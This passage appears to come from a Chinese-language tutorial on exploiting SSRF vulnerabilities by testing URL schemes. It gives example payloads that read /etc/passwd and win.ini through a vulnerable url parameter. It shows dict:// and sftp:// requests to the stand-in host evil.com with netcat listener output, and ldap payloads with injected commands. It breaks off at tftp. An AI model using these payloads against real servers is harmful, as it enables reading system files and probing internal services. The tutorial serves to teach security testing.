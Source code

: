 1.测试URL Schema

当我们发现SSRF漏洞后，首先要做的事情就是测试所有可用的URL Schema：

- file:///
- dict://
- sftp://
- ldap://
- tftp://
- gopher://

##### **file://**

这种URL Schema可以尝试从文件系统中获取文件：

```
http://example.com/ssrf.php?url=file:///etc/passwdhttp://example.com/ssrf.php?url=file:///C:/Windows/win.ini
```

如果该服务器阻止对外部站点发送HTTP请求，或启用了白名单防护机制，只需使用如下所示的URL Schema就可以绕过这些限制：

##### **dict://**

这种URL Scheme能够引用允许通过DICT协议使用的定义或单词列表：

```
http://example.com/ssrf.php?dict://evil.com:1337/ 
evil.com:$ nc -lvp 1337
Connection from [192.168.0.12] port 1337[tcp/*] 
accepted (family 2, sport 31126)CLIENT libcurl 7.40.0
```

##### **sftp://**

在这里，Sftp代表SSH文件传输协议（SSH File Transfer Protocol），或安全文件传输协议（Secure File Transfer Protocol），这是一种与SSH打包在一起的单独协议，它运行在安全连接上，并以类似的方式进行工作。

```
http://example.com/ssrf.php?url=sftp://evil.com:1337/ 
evil.com:$ nc -lvp 1337
Connection from [192.168.0.12] port 1337[tcp/*] 
accepted (family 2, sport 37146)SSH-2.0-libssh2_1.4.2
```

##### **ldap://或ldaps:// 或ldapi://**

LDAP代表轻量级目录访问协议。它是IP网络上的一种用于管理和访问分布式目录信息服务的应用程序协议。

```
http://example.com/ssrf.php?url=ldap://localhost:1337/%0astats%0aquithttp://example.com/ssrf.php?url=ldaps://localhost:1337/%0astats%0aquithttp://example.com/ssrf.php?url=ldapi://localhost:1337/%0astats%0aquit
```

##### **tftp://**

TFTP（Trivial File Transfer Protocol,简单文件传输协议）是一种简单的基于lockstep机制的文件传输协议，它允许客户端从远程主机获取文件或将文件上传至远程主机。
